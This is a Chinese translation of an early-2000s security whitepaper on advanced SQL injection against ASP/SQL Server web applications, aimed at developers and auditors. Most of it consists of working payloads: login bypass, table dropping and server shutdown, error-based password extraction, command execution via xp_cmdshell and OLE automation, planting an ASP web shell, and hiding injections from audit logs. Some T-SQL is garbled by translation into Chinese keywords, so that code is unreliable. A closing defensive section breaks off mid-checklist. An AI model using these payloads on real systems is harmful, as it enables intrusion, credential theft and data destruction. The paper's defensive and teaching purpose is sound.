

## SQLServer 应用的高级 SQL 注入

Chris Anley [chris@ngssoftware.com]



NGSsoftware Insight Security Research (NISR)出版物
©2002 Next Generation Security Software Ltd
http://www.ngssoftware.com

## 目录

- [摘要] 3
- [介绍] 3
- [使用错误消息获取信息] 7
- [进一步利用访问权限] 12
  - [xp_cmdshell] 12
  - [xp_regread] 13
  - [其他扩展存储过程] 13
  - [链接服务器] 14
  - [自定义扩展存储过程] 14
  - [将文本文件导入表中] 15
  - [使用BCP创建文本文件] 15
  - [在SQL Server中使用ActiveX自动化脚本] 15
- [存储过程] 17
- [高级SQL注入] 18
  - [不带引号的字符串] 18
  - [二次SQL注入] 18
  - [长度限制] 20
  - [审计逃避] 21
- [防御措施] 21
  - [输入验证] 21
  - [SQL Server安全限制] 23
- [参考文献] 24
- 附录A - 'SQLCrack' 25
  - (sqlcrack.sql) 25

## [摘要]

本文详细讨论了常见的“SQL注入”技术，以及它如何应用于流行的Microsoft Internet Information Server/Active Server Pages/SQL Server平台。它讨论了SQL可以被“注入”到应用程序中的各种方式，并解决了与这类攻击相关的数据验证和数据库锁定问题。

本文旨在为与数据库通信的Web应用程序开发人员和负责审计这些Web应用程序的安全专业人员阅读。

## [介绍]

结构化查询语言（'SQL'）是一种用于与关系数据库交互的文本语言。SQL有许多变种；目前常用的大多数方言都是基于SQL-92的，这是最新的ANSI标准。SQL的典型执行单元是'查询'，它是一组语句，通常返回一个单独的'结果集'。SQL语句可以修改数据库的结构（使用数据定义语言语句或'DDL'）并操作数据库的内容（使用数据操作语言语句或'DML'）。在本文中，我们将专门讨论Microsoft SQL Server使用的Transact-SQL方言。

当攻击者能够通过操纵应用程序中的数据输入将一系列SQL语句插入到'查询'中时，就会发生SQL注入。

一个典型的SQL语句看起来像这样：

```
select id, forename, surname from authors
```

这个语句将从'authors'表中检索'id'、'forename'和'surname'列，返回表中的所有行。'结果集'可以被限制为特定的'作者'，像这样：

```
select id, forename, surname from authors where forename = 'john' and surname = 'smith'
```

这里需要注意的一个重要点是，字符串字面值'john'和'smith'被单引号包围。假设'forename'和'surname'字段是从用户提供的输入中获取的，攻击者可能能够通过像这样输入值到应用程序中来'注入'一些SQL到这个查询中：

- 名字：jo'hn
- 姓氏：smith

'查询字符串'变成了这样：

```
select id, forename, surname from authors where forename = 'jo'hn' and surname = 'smith'
```

当数据库尝试运行此查询时，很可能会返回错误：

```
服务器: Msg 170, 级别 15, 状态 1, 行 1
行 1: 'hn' 附近的语法不正确。
```

造成这种情况的原因是插入的 '单引号' 字符 '打破了' 单引号限定的数据。 然后数据库尝试执行 'hn' 并失败。 如果攻击者指定了以下输入：

- 名字: jo'; drop table authors--
- 姓氏:

...作者表将被删除，原因我们稍后会详细说明。

似乎可以通过某种方式删除输入中的单引号，或者以某种方式'转义'它们来解决此问题。 这是正确的，但是这种方法作为解决方案存在几个困难。 首先，并非所有用户提供的数据都是字符串形式的。 例如，如果我们的用户输入可以通过 'id' (可能是一个数字) 选择作者，我们的查询可能如下所示：

```
select id, forename, surname from authors where id=1234
```

在这种情况下，攻击者可以简单地在数字输入的末尾添加SQL语句。 在其他SQL方言中，使用不同的分隔符；例如，在Microsoft Jet DBMS引擎中，日期可以用 “#” 字符括起来。 其次，“转义”单引号并不一定是一个简单的解决方法，原因我们稍后会详细讨论。

我们使用一个示例的Active Server Pages（ASP）'login'页面来详细说明这些观点，该页面访问一个SQL Server数据库并尝试验证对某个虚构应用程序的访问权限。

这是用于'表单'页面的代码，用户在其中输入用户名和密码：

```html
<HTML>
<HEAD>
<TITLE>登录页面</TITLE>
</HEAD>
<BODY bgcolor='000000' text='cccccc'>
<FONT Face='tahoma' color='cccccc'>
<CENTER><H1>登录</H1>
<FORM action='process_login.asp' method=post>
<TABLE>
<TR><TD>用户名：</TD><TD><INPUT type=text name=username size=100% width=100></INPUT></TD></TR>
<TR><TD>密码: </TD><TD><INPUT type=password name=password size=100% width=100></INPUT></TD></TR>
</TABLE>
<INPUT type=submit value='提交'><INPUT type=reset value='重置'>
</FORM>
</FONT>
</BODY>
</HTML>
```

这是处理实际登录的'process_login.asp'的代码：

```asp
<HTML>
<BODY bgcolor='000000' text='ffffff'>
<FONT Face='tahoma' color='ffffff'>
<STYLE>
    p { font-size=20pt ! important}
    font { font-size=20pt ! important}
    h1 { font-size=64pt ! important}
</STYLE>
<%@LANGUAGE = JScript %>
<%
function trace( str )
{
    if( Request.form("debug") == "true" )
        Response.write( str );
}
function Login( cn )
{
    var username;
    var password;
    username = Request.form("username");
    password = Request.form("password");
    var rso = Server.CreateObject("ADODB.Recordset");
    var sql = "select * from users where username = '" + username + "' and password = '" + password + "'";
    trace( "query: " + sql );
    rso.open( sql, cn );
    if (rso.EOF)
    {
        rso.close();
%>
<FONT Face='tahoma' color='cc0000'>
<H1>
<BR><BR>
<CENTER>拒绝访问</CENTER>
</H1>
</BODY>
</HTML>
<%
    Response.end
    return;
}
else
{
    Session("username") = "" + rso("username");
%>
<FONT Face='tahoma' color='00cc00'>
<H1>
<CENTER>授权访问<BR>
<BR>
欢迎,
<%
    Response.write(rso("Username"));
    Response.write( "</BODY></HTML>" );
    Response.end
}
}
function Main()
{
    //建立连接
    var username
    var cn = Server.createobject( "ADODB.Connection" );
    cn.connectiontimeout = 20;
    cn.open( "localserver", "sa", "password" );
    username = new String( Request.form("username") );
    if( username.length > 0)
    {
        Login( cn );
    }
    cn.close();
}
Main();
%>
```

关键点在于'process_login.asp'部分，它创建了'查询字符串'：

```javascript
var sql = "select * from users where username = '" + username + "' and password = '" + password + "'";
```

如果用户指定以下内容：

- 用户名： `'; drop table users--`
- 密码：

将删除'users'表，拒绝所有用户访问应用程序。 '--'字符序列是Transact-SQL中的'单行注释'序列，';'字符表示一个查询的结束和另一个查询的开始。 用户名字段末尾的'--'是为了使此特定查询在没有错误的情况下终止。

攻击者可以通过以下输入以任何用户身份登录，只要他们知道用户名：

- 用户名： `admin'--`

攻击者可以通过以下输入以'users'表中的第一个用户身份登录：

- 用户名： `' or 1=1--`

奇怪的是，攻击者可以通过以下输入以完全虚构的用户身份登录：

- 用户名： `' union select 1, '虚构用户', '某个密码', 1--`

之所以有效是因为应用程序认为攻击者指定的'常量'行是从数据库检索到的记录集的一部分。

## [使用错误消息获取信息]

这种技术最早由David Litchfield和作者在渗透测试中发现；David后来撰写了一篇关于该技术的论文[1]，随后的作者引用了这项工作。 本解释讨论了'错误消息'技术的机制，使读者能够充分理解它，并可能产生自己的变体。

为了操纵数据库中的数据，攻击者必须确定某些数据库和表的结构。 例如，我们的'users'表可能是用以下命令创建的：

```
create table users( id int,
    username varchar(255),
    password varchar(255),
    privs int
)
```

..并插入了以下用户：

```
insert into users values( 0, 'admin', 'r00tr0x!', 0xffff )
insert into users values( 0, 'guest', 'guest', 0x0000 )
insert into users values( 0, 'chris', 'password', 0x00ff )
insert into users values( 0, 'fred', 'sesame', 0x00ff )
```

假设我们的攻击者想要为自己插入一个用户账户。如果不知道'users'表的结构，他很可能不会成功。即使他运气好，'privs'字段的重要性也不清楚。攻击者可能插入一个'1'，给自己在应用程序中一个低权限的账户，而他真正想要的是管理员权限。

对于攻击者来说，如果应用程序返回错误消息（默认的ASP行为），攻击者可以确定整个数据库的结构，并读取由ASP应用程序用于连接到SQL服务器的帐户可以读取的任何值。

> （以下示例使用提供的示例数据库和.asp脚本来说明这些技术的工作原理。）

首先，攻击者想要确定查询操作的表名和字段名。为此，攻击者使用'select'语句的'having'子句：

- 用户名：`'having 1=1--`

这引发了以下错误：

```
Microsoft OLE DB提供程序对ODBC驱动程序的错误'80040e14'
[Microsoft][ODBC SQL Server驱动程序][SQL Server]列'users.id'在选择列表中无效，因为它不包含在聚合函数中，并且没有GROUP BY子句。
/process_login.asp，第35行
```

因此，攻击者现在知道查询中第一列的表名和列名。他们可以通过将每个字段引入到'group by'子句中来继续遍历列，如下所示：

- 用户名：`'group by users.id having 1=1--`

（这将产生错误...）

```
Microsoft OLE DB提供程序对ODBC驱动程序的错误'80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server]列'users.username'在选择列表中无效，因为它既不包含在聚合函数中，也不包含在GROUP BY子句中。
/process_login.asp，第35行
```

最终，攻击者得到了以下的'username':

- 用户名：`' group by users.id, users.username, users.password, users.privs having 1=1--`

...这不会产生错误，并且在功能上等同于：

```
select * from users where username = ''
```

因此，攻击者现在知道查询仅引用'users'表，并且按照'id, username, password, privs'的顺序使用列。

如果他能确定每列的类型将会很有用。这可以通过使用'type conversion'错误消息来实现，如下所示：

- 用户名：`' union select sum(username) from users--`

这利用了SQL服务器在确定两个结果集中字段数量是否相等之前尝试应用'sum'子句的事实。尝试计算文本字段的'sum'会导致以下消息：

```
Microsoft OLE DB提供程序对ODBC驱动程序的错误'80040e07'
[Microsoft][ODBC SQL Server驱动程序][SQL Server]求和或平均聚合操作不能将varchar数据类型作为参数。
/process_login.asp, 第35行
```

..这告诉我们'username'字段的类型是'vercar'。另一方面，如果我们尝试计算数值类型的sum()，我们会收到一个错误消息，告诉我们两个结果集中的字段数量不匹配：

- 用户名：`' union select sum(id) from users--`

```
Microsoft OLE DB提供程序对ODBC驱动程序的错误'80040e14'
[Microsoft][ODBC SQL Server驱动程序][SQL Server]包含UNION运算符的SQL语句中的所有查询必须在目标列表中具有相等数量的表达式。
/process_login.asp, 第35行
```

我们可以使用这种技术来大致确定数据库中任何表的任何列的类型。

这使得攻击者可以创建一个格式良好的'插入'查询，就像这样：

- 用户名：`'; insert into users values(666, '攻击者', 'foobar', 0xffff)--`

然而，这种技术的潜力并不止于此。攻击者可以利用任何透露环境或数据库信息的错误消息。

标准错误消息的格式字符串列表可以通过运行以下命令获得：

```
select * from master..sysmessages
```

检查这个列表会发现一些有趣的消息。

其中一个特别有用的消息与类型转换有关。 如果你尝试将一个字符串转换为整数，错误消息中会返回字符串的全部内容。 例如，在我们的示例登录页面中，以下 'username' 将返回特定的 SQL 服务器版本和运行的服务器操作系统：

- 用户名: `' union select @@version,1,1,1--`

```
Microsoft OLE DB提供程序对ODBC驱动程序的错误'80040e07'
[Microsoft][ODBC SQL Server 驱动程序][SQL Server]将nvarchar值'Microsoft SQL Server 2000 - 8.00.194 (Intel X86) Aug 6 2000 00:57:48 Copyright (c) 1988-2000 Microsoft Corporation Enterprise Edition on Windows NT 5.0 (Build 2195: Service Pack 2)'转换为int数据类型时出现语法错误。
/process_login.asp，第35行
```

这个尝试将内置的'@@version'常量转换为整数，因为'users'表中的第一列是整数。

这种技术可以用来读取数据库中任意表中的任意值。 由于攻击者对用户名和密码感兴趣，他们很可能会从'users'表中读取用户名，就像这样：

- 用户名: `' union select min(username),1,1,1 from users where username > 'a'--`

这将选择大于'a'的最小用户名，并尝试将其转换为整数：

```
Microsoft OLE DB提供程序对ODBC驱动程序的错误'80040e07'
[Microsoft][ODBC SQL Server 驱动程序][SQL Server]将varchar值'admin'转换为int数据类型的列时出现语法错误。
/process_login.asp，第35行
```

因此，攻击者现在知道'admin'账户存在。 他现在可以通过将每个新发现的用户名替换到'where'子句中来选代表中的行：

- 用户名: `' union select min(username),1,1,1 from users where username > 'admin'--`Microsoft OLE DB提供程序对ODBC驱动程序的错误'80040e07'

[Microsoft][ODBC SQL Server 驱动程序][SQL Server]将varchar值'chris'转换为int数据类型的列时出现语法错误。

/process_login.asp，第35行

一旦攻击者确定了用户名，他可以开始收集密码：

```
用户名: ' union select password,1,1,1 from users where username = 'admin'--
```

Microsoft OLE DB提供程序对ODBC驱动程序的错误'80040e07'

[Microsoft][ODBC SQL Server 驱动程序][SQL Server]将varchar值'r00tr0x!'转换为int数据类型的列时出现语法错误。

/process_login.asp，第35行

更优雅的技术是将所有的用户名和密码连接成一个字符串，然后尝试将其转换为整数。 这说明了另一个观点；在同一行上可以将Transact-SQL语句串联在一起而不改变它们的含义。 以下脚本将连接这些值：

```
开始 声明 @ret varchar(8000)
设置 @ret=':'
选择 @ret=@ret+' '+username+'/'+password from users where username>@ret
选择 @ret as ret into foo
结束
```

攻击者使用这个'用户名'进行'登录'（显然都在一行上...）

```
用户名: ' ; 开始 声明 @ret varchar(8000) 设置 @ret=':' 选择 @ret=@ret+' '+username+'/'+password from users where username>@ret 选择 @ret as ret into foo 结束--
```

这将创建一个名为'foo'的表，其中包含单个列'ret'，并将我们的字符串放入其中。通常，即使是低权限用户也可以在示例数据库或临时数据库中创建表。

攻击者然后像以前一样从表中选择字符串：

```
用户名: ' union select ret,1,1,1 from foo--
```

Microsoft OLE DB提供程序对ODBC驱动程序的错误'80040e07'

[Microsoft][ODBC SQL Server Driver][SQL Server]将varchar值': admin/r00tr0x! guest/guest chris/passwordfred/sesame'转换为数据类型int时出现语法错误。

/process_login.asp, 第35行

然后删除（删除）表以整理：

```
用户名: '; drop table foo--
```

这些示例只是展示了这种技术的灵活性的冰山一角。不用说，如果攻击者能够从数据库中获取丰富的错误信息，他们的工作将变得非常容易。

## [进一步利用访问权限]

一旦攻击者控制了数据库，他们很可能希望利用这种访问权限来进一步控制网络。可以通过多种方式实现这一目标：

1. 使用xp_cmdshell扩展存储过程以SQL服务器用户身份在数据库服务器上运行命令
2. 使用xp_regread扩展存储过程读取注册表键，可能包括SAM（如果SQL Server以本地系统帐户运行）
3. 使用其他扩展存储过程影响服务器
4. 在链接服务器上运行查询
5. 创建自定义扩展存储过程，在SQL Server进程内运行利用代码
6. 使用'bulk insert'语句读取服务器上的任何文件
7. 使用bcp在服务器上创建任意文本文件
8. 使用sp_OACreate、sp_OAMethod和sp_OAGetProperty系统存储过程创建Ole Automation（ActiveX）应用程序，可以执行与ASP脚本相同的操作

这些只是一些常见的攻击场景；攻击者很可能能够想出其他攻击方式。 我们将这些技术作为一系列相对明显的SQL Server攻击进行介绍，以展示注入SQL的能力可以实现什么。我们将逐个处理上述要点。

### [xp_cmdshell]

扩展存储过程本质上是编译的动态链接库（DLL），使用SQL Server特定的调用约定来运行导出的函数。 它们允许SQL Server应用程序完全利用C/C++的强大功能，并且是非常有用的功能。 SQL Server内置了许多扩展存储过程，可以执行各种功能，如发送电子邮件和与注册表交互。

xp_cmdshell是一个内置的扩展存储过程，允许执行任意的命令行。例如：

```
exec master..xp_cmdshell 'dir'
```

将获取SQL Server进程的当前工作目录的目录列表，并且

```
exec master..xp_cmdshell 'net1 user'
```

将提供机器上所有用户的列表。由于SQL Server通常以本地的'system'账户或'domain user'账户运行，攻击者可以造成很大的危害。

#### [xp_regread]

另一个有用的内置扩展存储过程集是xp_regXXX函数：

- xp_regaddmultistring
- xp_regdeletekey
- xp_regdeletevalue
- xp_regenumkeys
- xp_regenumvalues
- xp_regread
- xp_regremovemultistring
- xp_regwrite

这些函数的示例用法：

```
exec xp_regread HKEY_LOCAL_MACHINE,
'SYSTEM\CurrentControlSet\Services\lanmanserver\parameters',
'nullsessionshares'
```

（这确定服务器上可用的空会话共享）

```
exec xp_regenumvalues HKEY_LOCAL_MACHINE,
'SYSTEM\CurrentControlSet\Services\snmp\parameters\validcommunities'
```

（这将显示服务器上配置的所有SNMP社区。借助这些信息，攻击者可能重新配置网络设备，因为SNMP社区往往很少更改，并在许多主机之间共享）

很容易想象攻击者如何使用这些函数来读取SAM，更改系统服务的配置，以便在下次机器重启时启动，或在任何人登录服务器时运行任意命令。

#### [其他扩展存储过程]

xp_servicecontrol过程允许用户启动、停止、暂停和'继续'服务：

```
exec master..xp_servicecontrol 'start', 'schedule'
exec master..xp_servicecontrol 'start', 'server'
```

下面是一些其他有用的扩展存储过程的表格：

| 扩展存储过程 | 描述 |
| --- | --- |
| xp_availablemedia | 显示机器上可用的驱动器。 |
| xp_dirtree | 允许获取目录树。 |
| xp_enumdsn | 枚举服务器上的ODBC数据源。 |
| xp_loginconfig | 显示服务器安全模式的信息。 |
| xp_makecab | 允许用户在服务器上创建压缩的文件存档（或服务器可以访问的任何文件）。 |
| xp_ntsec_enumdomains | 枚举服务器可以访问的域。 |
| xp_terminate_process | 终止进程，给定其PID。 |

## [链接服务器]

SQL Server提供了一种机制，允许服务器进行'链接' - 即允许一个数据库服务器上的查询操作另一个数据库上的数据。 这些链接存储在master..sysservers表中。如果使用了链接服务器进行设置'sp_addlinked srvlogin'过程，一个预认证的链接存在，并且可以通过它访问链接的服务器而无需登录。'openquery'函数允许对链接服务器运行查询。

## [自定义扩展存储过程]

扩展存储过程API是一个相当简单的API，创建一个携带恶意代码的扩展存储过程DLL是一个相当简单的任务。 有几种方法可以使用命令行将DLL上传到SQL服务器，还有其他涉及各种通信机制的方法可以自动化，例如HTTP下载和FTP脚本。

一旦DLL文件存在于SQL服务器可以访问的机器上 - 这不一定是SQL服务器本身 - 攻击者可以使用以下命令添加扩展存储过程（在本例中，我们的恶意存储过程是一个小型的特洛伊木马Web服务器，可以导出服务器的文件系统）：

```
sp_addextendedproc 'xp_webserver', 'c:\emp\xp_foo.dll'
```

然后可以通过正常方式调用扩展存储过程来运行它：

```
exec xp_webserver
```

运行完存储过程后，可以通过以下方式将其删除：

```
sp_dropextendedproc 'xp_webserver'
```

## [将文本文件导入表中]

使用'bulk insert'语句，可以将文本文件插入临时表中。只需像这样创建表：

```
create table foo( line varchar(8000) )
```

然后运行bulk insert命令将文件中的数据插入表中，如下所示：

```
bulk insert foo from 'c:\inetpub\wwwroot\process_login.asp'
```

然后可以使用上述任何错误消息技术之一检索数据，或者通过'union' select语句将文本文件中的数据与通常由应用程序返回的数据组合起来。这对于获取存储在数据库服务器上的脚本源代码或可能是ASP脚本的源代码非常有用。

## [使用BCP创建文本文件]

使用与'bulk insert'相反的技术创建任意文本文件相当容易。不幸的是，这需要一个命令行工具'bcp'，即'bulk copy program'。

由于bcp从SQL Server进程外部访问数据库，因此需要登录。通常情况下，这并不难获得，因为攻击者可能可以创建一个或利用'集成'安全模式，如果服务器配置为使用它。

命令行格式如下：

```
bcp "SELECT * FROM test..foo" queryout c:\inetpub\wwwroot\uncommand.asp -c -Slocalhost -Usa -Pfoobar
```

'S'参数是要运行查询的服务器，'U'是用户名，'P'是密码，在这种情况下是'foobar'。

## [在SQL Server中使用ActiveX自动化脚本]

提供了几个内置的扩展存储过程，允许在SQL服务器中创建ActiveX Automation脚本。这些脚本在功能上与在Windows脚本宿主或ASP脚本上运行的脚本相同 - 它们通常使用VBScript或JavaScript编写的自动化脚本，它们创建自动化对象并与其交互。 以这种方式用Transact-SQL编写的自动化脚本可以做任何ASP脚本或WSH脚本可以做的事情。这里提供了一些示例以供说明目的。

1) 此示例使用'wscript.shell'对象创建记事本的实例（当然也可以是任何命令行）：

```
-- wscript.shell示例
declare @o int
exec sp_oacreate 'wscript.shell', @o out
exec sp_oamethod @o, 'run', NULL, 'notepad.exe'
```

在我们的示例场景中，可以通过指定以下用户名（全部在一行上）来运行：

```
用户名: '; declare @o int exec sp_oacreate 'wscript.shell', @o out exec sp_oamethod @o, 'run', NULL, 'notepad.exe'--
```

2) 此示例使用'scripting.filesystemobject'对象读取已知的文本文件：

```
-- scripting.filesystemobject示例-读取已知文件
declare @o int, @f int, @t int, @ret int
declare @line varchar(8000)
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'opentextfile', @f out, 'c:\boot.ini', 1
exec @ret = sp_oamethod @f, 'readline', @line out
while( @ret = 0 )
begin
    print @line
    exec @ret = sp_oamethod @f, 'readline', @line out
end
```

3) 这个例子创建了一个ASP脚本，可以在查询字符串中运行任何传递给它的命令：

```
-- scripting.filesystemobject示例 - 创建一个'run this'.asp文件
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'c:\inetpub\wwwroot\foo.asp', 1
exec @ret = sp_oamethod @f, 'writeline', NULL, '<% set o = server.createobject("wscript.shell"): o.run(request.querystring("cmd") ) %>'
```

重要的是要注意，在运行在Windows NT4，IIS4平台上时，由这个ASP脚本发出的命令将作为'system'账户运行。 然而，在IIS5上，它们将作为低权限的IWAM_xxx账户运行。

4) 这个（有点虚假的）例子说明了这种技术的灵活性；它使用了'speech.voicetext'对象，导致SQL服务器发声：

```
declare @o int, @ret int
exec sp_oacreate 'speech.voicetext', @o out
exec sp_oamethod @o, 'register', NULL, 'foo', 'bar'
exec sp_oasetproperty @o, 'speed', 150
exec sp_oamethod @o, 'speak', NULL, 'all your sequel servers are belong to us', 528
waitfor delay '00:00:05'
```

当然，在我们的示例场景中可以运行这个脚本，只需指定以下'username'（注意，这个示例不仅注入了脚本，还同时以'admin'身份登录到应用程序）：

```
用户名: admin'; declare @o int, @ret int exec sp_oacreate 'speech.voicetext', @o out exec sp_oamethod @o, 'register', NULL, 'foo', 'bar' exec sp_oasetproperty @o, 'speed', 150 exec sp_oamethod @o, 'speak', NULL, 'all your sequel servers are belong to us', 528 waitfor delay '00:00:05'--
```

## [存储过程]

传统智慧认为，如果一个ASP应用程序在数据库中使用存储过程，那么SQL注入是不可能的。 这是一个半真半假的说法，它取决于从ASP脚本中调用存储过程的方式。

基本上，如果运行一个参数化查询，并且用户提供的参数被安全地传递给查询，那么通常情况下是不可能发生SQL注入的。 然而，如果攻击者能够对运行的查询字符串的非数据部分施加任何影响，那么他们很可能能够控制数据库。

好的一般规则是：

- 如果ASP脚本创建一个提交给服务器的SQL查询字符串，那么它容易受到SQL注入的攻击，即使它使用了存储过程。
- 如果ASP脚本使用一个过程对象来封装参数分配给存储过程的过程（例如ADO命令对象与参数集合一起使用），那么通常是安全的，尽管这取决于对象的实现。

显然，最佳实践仍然是验证所有用户提供的输入，因为新的攻击技术一直在被发现。

为了说明存储过程查询注入点，请执行以下SQL字符串：

```
sp_who '1' select * from sysobjects
```

或者

```
sp_who '1'; select * from sysobjects
```

无论哪种方式，附加的查询仍然会在存储过程之后运行。

## [高级SQL注入]

通常情况下，Web应用程序会对单引号字符（和其他字符）进行转义，并通过限制其长度等方式对用户提交的数据进行处理。

在本节中，我们讨论一些帮助攻击者绕过一些更明显的SQL注入防御措施并在一定程度上逃避日志记录的技术。

### [不带引号的字符串]

偶尔，开发人员可能通过转义所有的单引号字符（比如使用VBScript的'replace'函数或类似方法）来保护应用程序：

```
function escape( input )
    input = replace(input, "'", "''")
    escape = input
end function
```

诚然，这将防止所有示例攻击在我们的示例网站上起作用，删除‘;’字符也会有很大帮助。然而，在一个更大的应用程序中，用户应该输入的几个值可能是数字。这些值不需要'分隔'，因此可能为攻击者插入SQL提供一个机会。

如果攻击者希望创建一个不使用引号的字符串值，他们可以使用'char'函数。例如：

```
insert into users values( 666,
    char(0x63)+char(0x68)+char(0x72)+char(0x69)+char(0x73),
    char(0x63)+char(0x68)+char(0x72)+char(0x69)+char(0x73),
    0xffff)
```

...是一个不包含引号字符的查询，将字符串插入表中。

当然，如果攻击者不介意使用数字用户名和密码，那么以下语句也可以使用：

```
插入到用户表中的值为( 667,
    123,
    123,
    0xffff)
```

由于SQL Server会自动将整数转换为'varchar'值，所以类型转换是隐式的。

### [二次SQL注入]即使应用程序总是转义单引号，攻击者仍然可以注入SQL，只要数据库中的数据被应用程序重复使用。

例如，攻击者可能会在应用程序中注册，创建一个用户名

```
用户名: admin'--
密码: password
```

应用程序正确转义了单引号，导致类似于以下的 INSERT 语句：

```
INSERT INTO users VALUES(123, 'admin''--', 'password', 0xffff)
```

假设应用程序允许用户更改密码。 ASP 脚本代码首先确保用户在设置新密码之前输入了旧密码。 代码可能如下所示：

```
username = escape( Request.form("username") );
oldpassword = escape( Request.form("oldpassword") );
newpassword = escape( Request.form("newpassword") );

var rso = Server.CreateObject("ADODB.Recordset");

var sql = "select * from users where username = '" + username + "' and password = '" + oldpassword + "'";

rso.open( sql, cn );

if (rso.EOF)
{
...
}
```

设置新密码的查询可能如下所示：

```
sql = "update users set password = '" + newpassword + "' where username = '" + rso("username") + "'"
```

rso("username") 是从 login 查询中检索到的用户名。

给定用户名 admin'--，查询将产生以下查询：

```
update users set password = 'password' where username = 'admin'--'
```

因此，攻击者可以通过注册一个名为 admin'-- 的用户来将管理员密码设置为他们选择的值。

这是一个危险的问题，在大多数试图转义数据的大型应用程序中都存在。 最好的解决方案是拒绝错误的输入，而不仅仅是尝试修改它。 然而，这有时可能会导致问题，例如在具有撇号的名称的情况下，已知的必需字符是 O'Brien；例如

从安全角度来看，解决这个问题的最好方法是简单地接受单引号不被允许的事实。如果这是不可接受的，它们将需要被 '转义'；在这种情况下，最好确保所有进入SQL查询字符串的数据（包括从数据库获取的数据）都得到正确处理。

如果攻击者可以以某种方式将数据插入系统中而不使用应用程序，那么也可以进行这种形式的攻击；应用程序可能具有电子邮件接口，或者可能在数据库中存储了攻击者可以对其进行某种控制的错误日志。始终最好验证 *所有* 数据，包括已经存在于系统中的数据 - 验证函数应该相对简单地调用，例如

```
if ( not isValid( "email", request.querystring("email") ) ) then response.end
```

..或类似的东西。

## [长度限制]

有时为了使攻击更加困难，输入数据的长度会受到限制；虽然这会阻碍某些类型的攻击，但在非常少量的 SQL 中仍然可能造成很大的伤害。例如，用户名

```
用户名: ';shutdown--
```

...将关闭 SQL Server 实例，仅使用 12 个输入字符。另一个例子是

```
DROP TABLE <表名>
```

限制输入数据长度的另一个问题是，如果长度限制在字符串被 '转义' 之后应用，那么会发生什么。如果用户名限制为（比如）16 个字符，并且密码也限制为 16 个字符，则以下用户名/密码组合将执行上述的 'shutdown' 命令：

```
用户名: aaaaaaaaaaaaaaaa'
密码: '; shutdown--
```

原因是应用程序尝试在用户名末尾 '转义' 单引号，但是字符串被截断为 16 个字符，删除了 '转义' 的单引号。结果是，如果密码字段以单引号开头，那么密码字段可以包含一些 SQL，因为查询最终会变成这样：

```
select * from users where username='aaaaaaaaaaaaaaaa' and password=''; shutdown--
```

有效地，查询中的用户名已经变成 `aaaaaaaaaaaaaa' and password='` ...所以尾随的 SQL 被执行。

## [审计逃避]

SQL Server 在 sp_traceXXX 函数族中包含了丰富的审计接口，允许在数据库中记录各种事件。这里特别感兴趣的是 T-SQL 事件，它记录了在服务器上准备和执行的所有 SQL 语句和批处理。如果启用了这个级别的审计，我们讨论过的所有注入的 SQL 查询都将被记录下来，熟练的数据库管理员将能够看到发生了什么。不幸的是，如果攻击者将字符串

```
sp_password
```

附加到 T-SQL 语句中，这个审计机制将记录以下内容：

```
-- 在此事件的文本中找到了'sp_password'。
-- 为了安全起见，文本已被替换为此注释。
```

即使 'sp_password' 出现在注释中，这种行为也会发生在所有的 T-SQL 日志记录中。这当然是为了隐藏用户通过 sp_password 传递的明文密码，但对于攻击者来说，这是一种非常有用的行为。

因此，为了隐藏所有的注入，攻击者只需在 '--' 注释字符后面简单地添加 sp_password，就像这样：

```
用户名：admin'--sp_password
```

某些 SQL 已经运行的事实将被记录，但查询字符串本身将方便地从日志中删除。

## [防御措施]

本节讨论了针对所描述的攻击的一些防御措施。讨论了输入验证，并提供了一些示例代码，然后我们解决了 SQL Server 的锁定问题。

### [输入验证]

输入验证可能是一个复杂的主题。通常，在开发项目中对此付出的关注不够，因为过于热衷的验证往往会导致应用程序的某些部分出现问题，而且输入验证的问题可能很难解决。输入验证往往不会增加应用程序的功能，因此在满足强加的截止日期的压力下，通常会被忽视。

以下是关于输入验证的简要讨论，附有示例代码。 这个示例代码（当然）不打算直接在应用程序中使用，但它确实很好地说明了不同的策略。

数据验证的不同方法可以归类如下：

- 1) 尝试调整数据使其有效
- 2) 拒绝已知为坏的输入
- 3) 只接受已知为好的输入

解决方案（1）存在一些概念上的问题；首先，开发人员不一定知道什么构成了“坏”数据，因为新的“坏数据”形式一直在被发现。其次，“调整”数据可能会改变其长度，从而导致上述问题。最后，还存在涉及系统中已有数据的二次效应的问题。

解决方案（2）与（1）存在一些相同的问题；“已知坏”输入会随着时间的推移而改变，因为新的攻击技术不断发展。

解决方案（3）可能是三种方案中较好的一种，但实施起来可能更困难。

从安全角度来看，可能最好的方法是结合方法（2）和（3）-仅允许良好的输入，然后在该输入中搜索已知的“坏”数据。

结合这两种方法的必要性的一个很好的例子是连字符姓氏的问题：

Quentin Bassington-Bassington

我们必须允许在我们的“良好”输入中使用连字符，但我们也意识到字符序列“--”对 SQL Server 有意义。

将数据的“整理”与字符序列的验证相结合时会出现另一个问题-例如，如果我们应用一个检测到“--”、“select”和“union”后跟一个“整理”过滤器的“已知坏”过滤器，该过滤器会删除单引号，攻击者可以指定如下输入

```
`uni'on sel'ect @@version'-'`
```

由于在应用“已知坏”过滤器后单引号被删除，攻击者可以简单地在他的已知坏字符串中插入单引号以逃避检测。

这是一些示例验证代码。

## 方法1 - 转义单引号

```vb
function escape( input )
    input = replace(input, "'", "''")
    escape = input
end function
```

## 方法2 - 拒绝已知的恶意输入

```vb
function validate_string( input )
    known_bad = array("select", "insert", "update", "delete", "drop", "--", "'")
    validate_string = true
    for i = lbound(known_bad) to ubound(known_bad)
        if (instr(1, input, known_bad(i), vbtextcompare) <> 0) then
            validate_string = false
            exit function
        end if
    next
end function
```

## 方法3 - 仅允许良好的输入

```vb
function validatepassword( input )
    good_password_chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
    validatepassword = true
    for i = 1 to len(input)
        c = mid(input, i, 1)
        if (InStr(good_password_chars, c) = 0) then
            validatepassword = false
            exit function
        end if
    next
end function
```

## [SQL Server 安全限制]

这里最重要的一点是，必须要“锁定”SQL Server；它在初始状态下并不安全。下面是构建 SQL Server 时需要做的一些简要清单：

- 1. 确定连接服务器的方法
    - a. 使用“网络工具”验证只启用了正在使用的网络库
- 2. 验证存在哪些账户
    - a. 为应用程序创建“低权限”账户
    - b. 删除不必要的账户
